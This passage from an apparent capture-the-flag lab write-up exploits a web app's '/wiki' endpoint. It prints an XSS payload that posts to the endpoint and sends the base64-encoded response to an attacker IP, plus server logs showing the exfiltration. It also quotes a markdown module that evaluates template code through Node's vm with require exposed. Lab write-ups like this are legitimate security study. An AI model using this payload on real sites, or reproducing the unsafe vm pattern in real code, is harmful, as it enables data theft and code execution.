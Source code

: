 Next, we modify our payload to make a `POST` request to the `/wiki` endpoint with no parameters:

```js
async function exfil() {
        const response = await fetch('/wiki', {
            method: "POST"
        });
        const text = await response.text();
        await fetch(`http://10.11.72.22/?data=${btoa(text)}`);
}

exfil();
```
{: file="xss.js" }

```console
10.10.165.202 - - [26/Dec/2024 15:47:02] "GET /xss.js HTTP/1.1" 200 -
10.10.165.202 - - [26/Dec/2024 15:47:03] "GET /?data=PCFE...sPgo= HTTP/1.1" 200 -
```

Now, decoding the response for the `POST` request to the `/wiki` endpoint, we see an interesting error:

```html
<pre>TypeError: Cannot read properties of undefined (reading 'replace')<br>    at markdownToHtml (/app/bfc_thehubint/node_modules/markdown-converter/index.js:5:6)<br>    at /app/bfc_thehubint/index.js:175:23<br>    at Layer.handle [as handle_request] (/app/bfc_thehubint/node_modules/express/lib/router/layer.js:95:5)<br>    at next (/app/bfc_thehubint/node_modules/express/lib/router/route.js:149:13)<br>    at requireLogin (/app/bfc_thehubint/index.js:97:3)<br>    at Layer.handle [as handle_request] (/app/bfc_thehubint/node_modules/express/lib/router/layer.js:95:5)<br>    at next (/app/bfc_thehubint/node_modules/express/lib/router/route.js:149:13)<br>    at Route.dispatch (/app/bfc_thehubint/node_modules/express/lib/router/route.js:119:3)<br>    at Layer.handle [as handle_request] (/app/bfc_thehubint/node_modules/express/lib/router/layer.js:95:5)<br>    at /app/bfc_thehubint/node_modules/express/lib/router/index.js:284:15</pre>
```
{: .wrap }

We can see the error is coming from the `markdown-converter` module, and luckily for us, we find this module in the `Node.js` registry at `http://npm-registry.bestfestivalcompany.thm/-/web/detail/markdown-converter` and can download its source code.

![Web Npmregistry Markdown Converter](web_npmregistry_markdown_converter.webp){: width="1200" height="600"}

After extracting the downloaded archive and checking the `package/index.js`, we see there is one exported function from the module called `markdownToHtml`.

```js
const vm = require('vm');

function markdownToHtml(markdown, context = {}) {
  let html = markdown
    .replace(/^# (.*$)/gim, '<h1>$1</h1>')
    .replace(/^## (.*$)/gim, '<h2>$1</h2>')
    .replace(/^### (.*$)/gim, '<h3>$1</h3>')
    .replace(/^\* (.*$)/gim, '<li>$1</li>')
    .replace(/\*\*(.*)\*\*/gim, '<b>$1</b>')
    .replace(/\*(.*)\*/gim, '<i>$1</i>');

  const dynamicCodeRegex = /\{\{(.*?)\}\}/g;
  html = html.replace(dynamicCodeRegex, (_, code) => {
    try {
      const sandbox = {
        ...context,
        require,
      };
      return vm.runInNewContext(code, sandbox);
    } catch (error) {
      return `<span style="color:red;">Error: ${error.message}</span>`;
```